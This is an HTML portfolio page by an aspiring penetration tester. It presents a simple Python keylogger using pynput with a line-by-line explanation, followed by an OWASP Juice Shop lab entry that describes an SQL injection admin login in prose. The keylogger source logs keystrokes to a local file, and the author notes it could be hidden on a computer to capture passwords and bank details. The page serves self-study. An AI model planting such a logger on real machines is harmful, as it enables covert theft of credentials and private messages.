

 <html>
  <head>
     <link rel="stylesheet" href="index.css">
  </head>
   <body>
    <Header id="section-Expo"> 
      
     

      
Hello, I am a young inspiring pen tester that wants to make a spot in industry, every since I gotten the idea of ethical hacking i've been try to learn and gain experience of looking and exporting vulnerabilities online, this portfolio will show what experience and skills I learned over the time in the internet, from trustrd websites that teaches you how to use kali Linux for pen testimg websites and files, to my cyber security class that teches me the basics of the subjet, to on hand experience of what I learned and trying to find vulnerabilities all over in the web, I will show my skills to anyone reading this page to prevail my career. 

     

    </Header>

   <h1 class="Projets_title">---Projets---</h1>

 <h2>KeyLogger</h2>
 <h2>Made and Updated by: 3/18/2025--3/24/2025</h2>

 

  
   <pre width="450" height="300">
    <code width="450" height="300"> 
   from pynput import keyboard
     
def keyPressed(key):
    print(str(key))
    with open("keyfule.txt", 'a') as logKey:
        try:
            char = key.char
            logKey.write(char)
        except:
            print("Error getting char")
        if key == keyboard.Key.enter:
            logKey.write("\n")
        elif key == keyboard.Key.space:
            logKey.write(' ')
            
if __name__ == "__main__":
    listener = keyboard.Listener(on_press=keyPressed)
    listener.start()
    input()
   
  </code>
 </pre>

 

  <h3>Technical Details</h3>
  <ul style="list-style-type:square">
   <li><strong>Programming Language:</strong>Python</li>
   <li><strong>Frameworks/Libraries:</strong>Pynput</li>
   <li><strong>Key Features:</strong>
    <ul style="list-style-type:square">
     <li>Cross-platform support (Windows, macOS, Linux)</li>
     <li>Simple API for listening to keyboard events</li>
     <li>Ability to simulate keyboard input</li>
    </ul>
   </li>
  </ul>
 

 
Before I start, I obtained this Keylogger from a YouTube tutorial, As a beginner, I try to learn from resources that are readily available to me. That way, I can understand how things work on my own without constantly needing to seek help. So I have added 2 new modifications to impove on less confusion in the log, but too the point. 
   
   
  This is a basic Keylogger that records keystrokes that have been pressed, this can be used of course to be hidden into a computer and log any sensitive information that was typed on said computer, like emails with passwords, private text messages, Bank info, and more. Here I will break down my simple code.

 
 

 <pre class="code">
  <code>
  def keyPressed(key):
    print(str(key))
    with open("keyfule.txt", 'a') as logKey:
  </code>
 </pre>

Here is the start of the function where I set the parameter as Key, then in the next line it take any key pressed to a string so it can be printed in the text file that is existing (or made its self if theres no text file with that same name) then adds a append tool here 'a' so any keystrokes will be added im the file, and it will used as logKey.

 

 
Now the 'Try' is used to handle exceptions that occur when getting a character representation of a key by using 'key.char', except for special key, if it's is one it will not be added in the txt file and will give an error "Error getting char". 

 <pre class="code">
  <code>
    try:
            char = key.char
            logKey.write(char)
        except:
            print("Error getting char")
  </code>
 </pre>

 

  <pre class="code">
   <code>
    if key == keyboard.Key.enter:
            logKey.write("\n")
        elif key == keyboard.Key.space:
            logKey.write(' ')
   </code>
  </pre>

 
 Now these last two blocks I personal added so theres less confusion on the txt file, because without them the letters will be jumbled up. 
   
   
  so both 'if' and elif statements are used just in case the ENTER or SPACE key was pressed, it will still display the error line in the console log but will still skip a line or make space once pressed in the txt file.

 

 
 
 

 

 <h2>OWASP Juice Shop:⭐</h2>
 <h2>Made and Updated by: 4/21/2025--4/22/2025</h2>

OWASP Juice Shop is a web application that has built-in vulnerabilities covering the OWASP Top Ten and beyond, it is use for practice finding and exploiting web vulnerabilities in a safe, legal environment. 
 
 
It is used for training and learning web application security, penetration testing, and secure coding practices. I will document the level 1 difficulties to show what I already know and what I learned using OWASP Juice Shop, now a few things were new to me so I had to get some outside help, like AI for hints, websites that already cover the different CTF's, and Youtube videos explaining what to do, but that one of the point of Pen testing, going around the web to find and use different sources and tools to find the vulnerabilities and make them stronger.

 <ul style="list-style-type:square">
  <li><strong>Application:</strong> Docker</li>
  <li><strong>Sources:</strong> 
   <ul style="list-style-type:square">
    <li> <a href="https://owasp.org/www-project-juice-shop/">owasp.org</a> </li>
    <li> <a href="https://github.com/juice-shop/juice-shop?tab=readme-ov-fi">github.com/juice-shop</a> </li>
   </ul>
  </li>
 </ul>

 
 
<h3 style="display: inline-block; border-bottom: 3px solid #ace34d; padding-bottom: 4px; color: #ace34d;">Injection</h3>
  
  <h2 style="display: inline-block; border-bottom: 3px solid #ace34d; padding-bottom: 4px; color: #ace34d;">Login Admin: ⭐⭐</h2>
  
   

    
     
Here is first thing I have done when I open the page, it was a simple SQL Injection, which is a common login Vulnerability where a attacker Injects 
 a malicious crafted input in the username or password input boxes to gain unauthorize access to a admin account or someone with higher power, this is one of the many in injection vulnerabilities that a web application can have.

   

   
I learned SQL Injections from a website named <a href="https://hacksplaining.com/lessons">Hacksplaining</a>, where its a place where you can learn hacking skills and vulnerabilities, it also teaches how to fix vulnerabilities in code and more, and does short quiz after a summary of the Vulnerability. now the first lessons on the site is web application vulnerabilities, so that where I learned SQL Injections.

   

    <video loop autoplay muted src="Videos/OWASP%20JSP%20VIDS/Admin_log.mp4" width="400" height="400"></video>
     
   

  
  </body>
 </html>
